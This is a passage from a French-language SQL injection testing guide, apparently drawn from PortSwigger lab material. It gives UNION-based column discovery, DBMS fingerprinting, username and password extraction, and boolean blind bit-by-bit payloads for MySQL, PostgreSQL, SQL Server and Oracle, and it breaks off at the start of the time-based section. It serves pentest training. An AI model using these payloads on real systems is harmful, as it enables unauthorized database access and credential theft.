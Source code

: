    * `ORDER BY n` incrémental : `… ORDER BY 1--`, `… ORDER BY 2--` … jusqu’à erreur → **n-1** colonnes.
   * ou **UNION NULL** : `… UNION SELECT NULL--`, puis `NULL,NULL--`, etc., jusqu’à réponse **200 / page stable**. ([PortSwigger][5])
2. **Colonnes affichées (texte)**

   * Place une chaîne tour à tour :

     ```
     ' UNION SELECT 'a',NULL,NULL-- 
     ' UNION SELECT NULL,'a',NULL-- 
     ' UNION SELECT NULL,NULL,'a'--
     ```

     La/les colonne(s) qui **s’affichent** serviront pour dumper les données. ([PortSwigger][6])
3. **Fingerprint & enum**

   * Version/DB courante : `version()`, `current_database()`, `@@version`, `banner …`
   * Lister tables/colonnes via `information_schema` (MySQL/PG/SQLSrv) ou vues Oracle (`all_tables`, `all_tab_columns`).
   * Puis **UNION SELECT** des `username,password` (ou données ciblées).
     \*(Exos & labs PortSwigger sur l’énumération) ([PortSwigger][7])

> **Checklists in-band**
>
> * [ ] Nb colonnes trouvé
> * [ ] Colonne(s) texte identifiée(s)
> * [ ] Version & DB courante
> * [ ] Tables/colonnes sensibles listées
> * [ ] Extraction minimale (PoC) + captures

---

## 3) SQLi **blind** (aucune sortie exploitable)

> **Stratégie** : ① Boolean-based (réponse change), ② Time-based (latence), ③ **OAST** (DNS/HTTP externe) si async / no-feedback. ([PortSwigger][3])

### 3.1 Boolean-based (différence de contenu)

* **Test booléen** :

  * Vrai : `… AND 1=1--` ; Faux : `… AND 1=2--` → comparer gabarit/rendu.
* **Exfiltration bit-à-bit** (binaire / bisection) :

  * MySQL : `AND ASCII(SUBSTRING((SELECT database()),1,1))>77--`
  * PostgreSQL : `AND ASCII(SUBSTRING((SELECT current_database()),1,1))>77--`
  * SQL Server : `AND ASCII(SUBSTRING(DB_NAME(),1,1))>77--`
  * Oracle : `AND ASCII(SUBSTR((SELECT ora_database_name FROM dual),1,1))>77--`
* Appliquer **recherche dichotomique** caractère par caractère.
  \*(Concepts & lab “conditional responses”) ([PortSwigger][8], [Invicti][9])

### 3.2 Time-based (différences de temps)

* Utiliser une **fonction de délai** pour déduire Vrai/Faux par latence :


[1]: https://portswigger.net/web-security/sql-injection? "What is SQL Injection? Tutorial & Examples | Web Security"
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection? "Testing for SQL Injection"
[3]: https://portswigger.net/web-security/sql-injection/blind? "What is Blind SQL Injection? Tutorial & Examples"
[4]: https://portswigger.net/web-security/sql-injection/cheat-sheet? "SQL injection cheat sheet | Web Security Academy"
[5]: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns? "Lab: SQL injection UNION attack, determining the number ..."
[6]: https://portswigger.net/web-security/sql-injection/union-attacks? "SQL injection UNION attacks | Web Security Academy"
[7]: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle? "SQL injection attack, listing the database contents on Oracle"
[8]: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses? "Lab: Blind SQL injection with conditional responses"
[9]: https://www.invicti.com/learn/blind-sql-injection/? "Blind SQL Injection"
[10]: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval? "Blind SQL injection with time delays and information retrieval"
[11]: https://portswigger.net/burp/application-security-testing/oast? "Out-of-Band Application Security Testing (OAST) Software"
[12]: https://redsiege.com/tools-techniques/2018/09/capturing-sql-server-user-hash-with-sqli/?  "Capturing SQL Server User Hash with SQLi"
[13]: https://infosecwriteups.com/out-of-band-oob-sql-injection-87b7c666548b?  "Out-of-Band (OOB) SQL Injection"
[14]: https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf?  "MySQL Out-of-Band Hacking"
[15]: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band?  "Lab: Blind SQL injection with out-of-band interaction"
[16]: https://github.com/sqlmapproject/sqlmap/wiki/Techniques?  "Techniques · sqlmapproject/sqlmap Wiki"
[17]: https://highon.coffee/blog/sqlmap-cheat-sheet/?  "SQLMap Cheat Sheet: Flags & Commands for SQL Injection"
[18]: https://www.vaadata.com/blog/exploiting-an-sql-injection-with-waf-bypass/?  "Exploiting an SQL injection with WAF bypass - Vaadata"